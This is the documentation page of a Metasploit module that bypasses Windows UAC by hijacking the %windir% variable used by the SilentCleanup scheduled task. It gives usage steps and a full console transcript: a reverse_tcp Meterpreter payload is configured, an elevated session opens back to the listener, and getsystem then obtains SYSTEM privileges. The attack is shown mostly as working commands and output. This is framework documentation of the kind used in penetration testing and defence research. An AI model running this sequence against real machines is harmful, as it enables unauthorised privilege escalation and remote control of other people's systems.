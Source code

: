 ## Introduction

This module will bypass UAC on any Windows installation with Powershell installed. 

There's a task in Windows Task Scheduler called "SilentCleanup" which, while it's executed as Users, automatically runs with elevated privileges.
When it runs, it executes the file %windir%\system32\cleanmgr.exe. Since it runs as Users, and we can control user's environment variables,
%windir% (normally pointing to C:\Windows) can be changed to point to whatever we want, and it'll run as admin. In order to work, the code must 
be saved in a script file somewhere, it cannot be run directly from powershell or from the run dialog.

## Usage

1. Create a session on the target system under the context of a local administrative user.
1. Begin interacting with the module: `use exploit/windows/local/bypassuac_silentcleanup`.
1. Set the `PAYLOAD` and configure it correctly, making sure the architecture is correct.
1. If an existing handler is configured to receive the elevated session, then the module's
   handler should be disabled: `set DisablePayloadHandler true`.
1. Make sure that the `SESSION` value is set to the existing session identifier.
1. Invoke the module: `run`.

## Scenario

```
msf5 > sessions

Active sessions
===============

  Id  Name  Type                     Information                               Connection
  --  ----  ----                     -----------                               ----------
  6         meterpreter x86/windows  DESKTOP-T2TGIHP\Carter @ DESKTOP-T2TGIHP  192.168.1.x:4444 -> 192.168.1.x:53685 (192.168.1.x)

msf5 > use exploit/windows/local/bypassuac_silentcleanup 
msf5 exploit(windows/local/bypassuac_silentcleanup) > set SESSION 6
SESSION => 6
msf5 exploit(windows/local/bypassuac_silentcleanup) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/local/bypassuac_silentcleanup) > set LHOST 192.168.1.xx
LHOST => 192.168.1.xx
msf5 exploit(windows/local/bypassuac_silentcleanup) > options

Module options (exploit/windows/local/bypassuac_silentcleanup):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   SESSION    6                yes       The session to run this module on.
   SLEEPTIME  0                no        The time (ms) to sleep before running SilentCleanup


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.1.55     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Microsoft Windows


msf5 exploit(windows/local/bypassuac_silentcleanup) > run

[*] Started reverse TCP handler on 192.168.1.xx:4444 
[+] Part of Administrators group! Continuing...
[*] Sending stage (206403 bytes) to 192.168.1.x
[*] Meterpreter session 10 opened (192.168.1.xx:4444 -> 192.168.1.x:55538) at 2019-06-20 15:00:14 -0400

meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > bg
[*] Backgrounding session 10...
msf5 exploit(windows/local/bypassuac_silentcleanup) > 
```

